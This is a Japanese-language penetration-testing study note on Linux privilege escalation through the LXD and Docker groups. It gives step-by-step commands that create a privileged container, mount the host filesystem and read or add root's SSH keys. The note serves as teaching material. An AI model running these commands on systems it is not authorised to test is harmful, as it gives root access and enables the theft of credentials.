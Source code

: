 **GTFOBins**
- Linux : https://gtfobins.github.io
- Windows : https://lolbas-project.github.io/#

## 特権グループ LXC / LXD
- LXDはDockerに似ており、Ubuntuのコンテナマネージャー
- インストールすると、すべてのユーザーがLXDグループに追加される
	- LXDコンテナを作成し、特権を与え、`/mnt/root`でホストファイルシステムにアクセスすることで、特権を昇格できる

LXDがインストールされていると、idの結果こんな感じになる
```shell-session
id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

LXDコンテナを作成することでローカルでのroot権限を取得する
早速コンテナを作成する
1. Alpine imageを解凍する
```shell-session
unzip alpine.zip 
```

2. LXDの初期化プロセスを開始する。各プロンプトに対してデフォルトを選択する
```sh
lxd init
```

3. ローカルイメージをインポートする
```sh
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

4. コンテナをUIDマッピングなしで実行するために、security.privilegedをtrueに設定する
- これによって、ローカルでもrootを取得する
```sh
lxc init alpine r00t -c security.privileged=true
```

5. ホストファイルシステムをマウントする
```sh
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

6. コンテナインスタンス内でシェルを生成する
- これで、マウントされたホストファイルシステムをrootとして閲覧できる
- たとえば、ホスト上のrootディレクトリの内容にアクセスするには、`cd /mnt/root/root`と入力する
```sh
lxc start r00t
~/64-bit Alpine$ lxc exec r00t /bin/sh
```

### Docker
- ユーザーをdockerグループに配置することは、パスワードを必要とせずにファイルシステムへのrootレベルのアクセスと本質的に同等
- dockerグループのメンバーは、新しいdockerコンテナを起動できる
	- コマンドは、ホストファイルシステムの/rootディレクトリがボリュームとしてマウントされた新しいDockerインスタンスを作成する
	- コンテナが起動されると、マウントされたディレクトリを参照して、rootユーザーのSSHキーを取得または追加できる
```sh
docker run -v /root:/mnt -it ubuntu
```
